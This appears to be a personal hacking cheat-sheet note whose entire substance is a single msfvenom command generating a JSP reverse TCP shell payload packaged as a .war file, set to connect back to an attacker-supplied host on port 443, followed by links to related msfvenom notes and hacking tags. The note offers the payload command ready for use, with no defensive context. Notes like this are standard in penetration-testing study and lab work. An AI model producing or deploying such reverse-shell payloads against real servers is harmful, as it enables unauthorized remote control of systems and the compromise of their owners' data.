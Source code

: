 # MSFVENOM Java Server Pages (.jsp) As .war
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f war -o shell.war
```

# Related
- [20221003150760](/zet/20221003150760/README.md) MSFVENOM Java Server Pages (.jsp)
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:
    #assorted #command #hacking #msfvenom
